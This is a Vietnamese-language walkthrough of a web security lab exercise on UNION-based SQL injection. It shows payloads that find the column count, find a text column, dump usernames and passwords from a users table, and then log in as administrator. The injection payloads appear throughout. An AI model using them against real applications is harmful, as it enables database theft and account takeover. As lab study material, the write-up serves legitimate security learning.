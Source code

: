 ## SQL injection attack, querying the database type and version on Oracle

1. Lab cho ta biết rằng trong database có một bảng ``users`` chứa username và password

2. Xác định số cột trong bảng category bằng cách sử dụng lần lượt các câu truy vấn UNION SELECT gắn giá trị ``null`` cho từng cột
	Payload: 
	```' UNION SELECT null --```
	```' UNION SELECT null, null --```
-> Xác định được số cột trong bảng category là 2

3. Tiếp theo xác định cột chứa dữ liệu dạng string 
	 Payload: 
	```' UNION SELECT 'test',null --```
	```' UNION SELECT null, 'test' --```

![Img1](\asset/../img/determine_col_contain_text.png)

4. Qua đó ta biết được rằng cột 2 có kiểu string. Do chỉ có cột 2 trả về string nên ta sẽ tiến hành nối chuỗi username và password trong 1 câu truy vấn
	Payload:
	```' UNION SELECT null, username || password from users--```

![Img2](\asset/../img/result.png)

5. Login với ``administrator:s8i5jvyggjzv1nvihot0``

![Img3](\asset/../img/done.png)